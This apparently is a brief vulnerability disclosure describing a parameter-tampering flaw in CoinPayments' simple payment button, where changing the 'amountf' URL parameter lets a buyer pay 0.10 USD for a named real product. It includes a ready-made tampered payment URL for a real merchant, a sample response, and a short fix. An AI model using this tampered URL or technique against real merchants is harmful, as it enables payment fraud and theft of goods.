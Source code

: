 in 2022 i found a vulnerabilitie in Coinpayments api, the website is likely not properly validating or securing the user input from the URL parameter
allowing an attacker to modify the price directly. 

vulnerable url: https://www.coinpayments.net/index.php?cmd=_pay_simple&reset=1&merchant=452f63dd60678a63ce74eef80f69d284&item_name=Synapse%20X&item_desc=One%20redeemable%20serial%20key%20for%20Synapse%20X&item_number=1&currency=USD&amountf=0.1&want_shipping=0&success_url=https://x.synapse.to/success.html&cancel_url=https://x.synapse.to/success.html
risk: critical

summury:

	<input type="hidden" name="amountf" value="1.00">
  
  when you buy a product that have a payment method with coinpayments the merchant tool button api will send a post request with the following details:
          {
              "error":"ok",
               "result":{
                  "amount":"0.10",
                  "address":"ZZZ",
                  "dest_tag":"YYY",
                  "txn_id":"XXX",
                  "confirms_needed":"10",
                  "timeout":9000,
                  "cmd":"_pay_simple","reset":"1","merchant":"{merchent}","item_name":"{product_name}","item_desc":"{item_desc}","item_number":1,"currency":"USD","amountf":0,"want_shipping":0,"success_url":"https://x.synapse.to/success.html","cancel_url":"https://x.synapse.to/success.html"

            }
          }

     when you change the parameter "amountf" the api will not check if its right or no its automatically processed and it will be the price of the product
     and when you pay the modified price which is 0.10$ minimum it will redirect you to success url and the payment is done and the real price has been modified
     
    solution:
      perform access validation.
      the price parameter should not be filled with the user
      
read more about the idor vulnerabilitie: https://portswigger.net/web-security/access-control/idor


https://media.discordapp.net/attachments/980461133699878982/1043611362917630022/image.png?width=1127&height=585

and like you see here the price really changed not just the value of it

